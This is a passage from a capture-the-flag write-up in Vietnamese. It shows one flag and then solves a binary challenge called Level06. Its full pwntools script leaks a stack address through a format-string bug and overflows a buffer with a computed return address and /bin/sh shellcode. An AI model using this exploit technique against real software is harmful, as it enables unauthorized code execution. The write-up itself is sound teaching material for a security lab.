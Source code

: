 

![image](https://hackmd.io/_uploads/B1scottv6.png)
![image](https://hackmd.io/_uploads/HJuiitKvp.png)
![image](https://hackmd.io/_uploads/B1VmstYwa.png)

và mình được flag là:
**KMA{56a9f418e78d3bda4ce47384bbf62055}**

## Level06
mình dùng IDA đọc source code được:

![image](https://hackmd.io/_uploads/rJuFZI9vp.png)


Tương tự level03 nhưng chương trình đã không cho thông tin về stack mà kẻ tấn công sẻ phải tự lấy thông tin để tính toán được chuỗi nhập vô ở đâu và sau đó chèn shellcode rồi thực thi.

![image](https://hackmd.io/_uploads/ryLspvqPp.png)

mình thấy vị trí %5$x cách vị trí mà chúng ta nhập vào  nhập vào 184 vậy là mình đã có vị trí stack cần thiết và sau đó mình làm như bài Level03

![image](https://hackmd.io/_uploads/ryI3TDqPa.png)

```python=
#!/usr/bin/python3.7

from pwn import *

context.binary = exe = ELF('./Level06')

p = process(exe.path)

# input()
shellcode =b'\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80'
payload1 = b'%5$x'
# payload = b'BBBB'
p.sendline(payload1)
data = p.recv(8) 
data = data.decode('utf8').strip()
data1 = data
data = "0x" + data
data = int(data, 16)
data -= 184
data += (16 + 4)
payload = b'A' * 16
payload += p32(data) 
payload += shellcode
p.sendline(payload) 
p.sendline(b'cat flag')

p.interactive()
```
## Level07
![image](https://hackmd.io/_uploads/ryw0V2tPT.png)
